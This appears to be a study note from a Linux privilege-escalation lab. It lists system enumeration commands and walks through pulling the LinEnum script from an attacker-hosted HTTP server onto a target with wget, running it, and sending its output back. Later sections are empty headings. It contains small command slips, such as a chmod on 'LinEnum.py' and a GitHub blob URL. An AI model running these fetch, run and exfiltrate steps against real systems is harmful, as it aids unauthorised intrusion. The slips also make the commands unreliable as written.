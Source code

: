# Linux Privilege Escalation

## Enumeration

### Query the System

`:> hostname` : Query the hostname  

`:> uname -a`  : Query Kernel information  

`:> cat /etc/passwd`  :  Identify system users  

`:> cat /etc/shells` : Identify potentially useful shells on the system

`:> cat /etc/crontab` : List cron jobs

`:> cat /proc/version` : Specifics about the kern verion and the GCC compilers use to build the kernel  

`:> cat /etc/issue` : Contains the pre-login prompt and can be changed



### LinEnum.sh to Exfiltrate the system information

Get LinEnum.sh onto the attacking device

`:> wget -O LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh`

Gain access to the target machine

![Logged In](assets/Linux-PrivEsc-01-LinEnum-01.png)

Open a simple server on the attacking device in the directory from where LinEnum can be transported.

`:> python3 -m http.server 8888`

![Python Server](assets/Linux-PrivEsc-01-LinEnum-02.png)  

On the target device, set up a location from where the script will run.  

![Target Locationls](assets/Linux-PrivEsc-01-LinEnum-03.png)  

Pull the script from the python server to the target device.  

`:> wget 10.201.47.243:8888/LinEnum.sh`

The serving attacker logs the "GET" request and the target device recevies the script

![wget LinEnum](assets/Linux-PrivEsc-01-LinEnum-04a.png)  

If the target device is permitted a WAN connection, pull the script from GitHub.

`:> wget -O LinEnumFromGit.sh https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh`  

Add execution privileges to the script 

`:> chmod +x LinEnum.py`

![with exeuction](assets/Linux-PrivEsc-01-LinEnum-05.png)  

Run the script and output to a file that can be studied for escalation opportunities

`:> ./LinEnum.sh > enum.txt`

Shutdown the server on the attacking device

![Server Shutdown](assets/Linux-PrivEsc-01-LinEnum-06.png)  

Reverse the server setup and transfer the enum.txt to the attacking device for analysis and resource development.

![Data Exfiltration](assets/Linux-PrivEsc-01-LinEnum-07.png)

### Use FIND to identify useful file properties and attributes  


## SUID/GUID 

## Writeable /etc/passwd files

## Escaping the Vi editor

## Exploit Crontab

## Exploiting the PATH variable